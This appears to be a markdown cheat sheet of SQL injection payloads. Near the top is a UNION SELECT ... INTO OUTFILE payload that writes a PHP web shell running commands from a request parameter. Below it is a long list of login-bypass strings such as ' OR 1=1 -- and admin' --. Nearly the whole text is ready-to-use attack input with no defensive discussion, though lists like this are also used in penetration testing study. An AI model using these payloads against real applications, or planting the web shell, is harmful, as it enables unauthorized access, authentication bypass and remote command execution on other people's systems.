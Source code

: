 
#### SQL injection of php code
```
' union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '<replace-with-path>/cmd.php'; -- -
```


# SQL Injection Commands Notes

## **Basic SQL Injection**

### **Login Bypass**
```sql
admin' OR '1'='1 --
' OR 1=1;-- -
' OR 1=1
' OR 1=1-- '
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
```